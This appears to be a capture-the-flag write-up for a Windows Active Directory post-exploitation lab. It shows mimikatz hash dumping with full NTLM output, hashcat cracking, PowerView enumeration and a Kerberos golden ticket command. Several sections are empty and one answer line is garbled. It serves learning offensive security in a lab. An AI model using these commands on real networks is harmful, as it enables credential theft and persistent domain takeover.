 
## Post Exploitation Basics

```
Username: Administrator
Password: P@$$W0rd
Domain Name: Controller
```
#### Enumerations with Powerview

Cheat sheet with Powerview commands: 
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
https://powersploit.readthedocs.io/en/latest/Recon/

SSH into the Vulnerable Machine
```
ssh Administrator@10.10.
Password: P@$$W0rd
```

What is the shared folder that is not set by default?
```
Invoke-ShareFinder

Share
```

What operating system is running inside of the network besides Windows Server 2019?
```
Get-NetComputer -fulldata | select operatingsystem 

Windows 10 Enterprise Evaluation
```

I've hidden a flag inside of the users find it
```

```
#### Enumeration with Bloodhound

#### Dumping Hashes with mimikatz

Run mimikatz
```
mimikatz
```

Confirm that mimikatz is being run as an Administrator
```
privilege::debug
```

Dump the hashes with mimikatz
```
lsadump::lsa /patch

RID  : 000001f4 (500)  
User : Administrator  
LM   :  
NTLM : 2777b7fec870e04dda00cd7260f7bee6  
  
RID  : 000001f5 (501)  
User : Guest  
LM   :  
NTLM :  
  
RID  : 000001f6 (502)  
User : krbtgt    
LM   :  
NTLM : 5508500012cc005cf7082a9a89ebdfdf  
   
RID  : 0000044f (1103)  
User : Machine1  
LM   :  
NTLM : 64f12cddaa88057e06a81b54e73b949b  
  
RID  : 00000451 (1105)  
User : Admin2  
LM   :  
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe  
  
RID  : 00000452 (1106)  
User : Machine2  
LM   :  
NTLM : c39f2beb3d2ec06a62cb887fb391dee0  
  
RID  : 00000453 (1107)    
User : SQLService  
LM   :  
NTLM : f4ab68f27303bcb4024650d8fc5f973a  
  
RID  : 00000454 (1108)  
User : POST  
LM   :  
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2  
  
RID  : 00000457 (1111)  
User : sshd  
LM   :  
NTLM : 2777b7fec870e04dda00cd7260f7bee6  
  
RID  : 000003e8 (1000)  
User : DOMAIN-CONTROLL$  
LM   :  
NTLM : 2856f6788008913b2f331e7a547e13e4    
  
RID  : 00000455 (1109)  
User : DESKTOP-2$  
LM   :  
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c  
  
RID  : 00000456 (1110)  
User : DESKTOP-1$  
LM   :  
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

```
DESKTOP-1$
hashcat -m 1000 7d33346eeb11a4f12a6c201faaa0d89a rockyou.txt
12345 > hockey 


```

**Questions**

what is the Machine1 Password?
```
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

What is the Machine2 Hash?
```
└─# hashcat -m 1000 c39f2beb3d2ec06a62cb887fb391dee0 rockyou.txt

c39f2beb3d2ec06a62cb887fb391dee0:Password2
```
#### Golden Ticket Attacks with mimikatz

```
`mimikatz.exe`
```


```
lsadump::lsa /inject /name:krbtgt

Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f6 (502)  
User : krbtgt

NTLM : 5508500012cc005cf7082a9a89ebdfdf
```

Create a golden ticket with the information gathered from the inject command 
```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```
**Questions**

I understand how a golden ticket attack works and how to use a golden ticket attack to move through a network
```

```

#### Enumeration with Server Manager

What tool allows to view the event logs?
```

```

What is the SQL Service password
```

```
#### Maintaining Access

#### Conclusion



